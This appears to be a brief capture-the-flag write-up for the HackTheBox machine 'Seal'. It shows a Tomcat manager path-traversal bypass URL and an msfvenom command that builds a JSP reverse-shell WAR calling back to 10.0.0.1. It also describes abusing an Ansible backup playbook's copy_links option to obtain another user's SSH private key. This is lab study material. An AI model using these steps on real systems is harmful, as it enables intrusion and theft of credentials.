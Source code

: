 # Bypass

```html
https://seal.htb/manager/;;/html/
```
Source: https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/

# Rev shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
```

* Deploy on tomcat 


![[Pasted image 20210712175807.png]]


# Privesc to Luis

```bash
tomcat@seal:/opt/backups/playbook$ cat run.yml 
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

*copy_links=yes* so we can put the id_rsa from luis and see it on the backup

![[Pasted image 20210712183100.png]]


![[Pasted image 20210712183130.png]]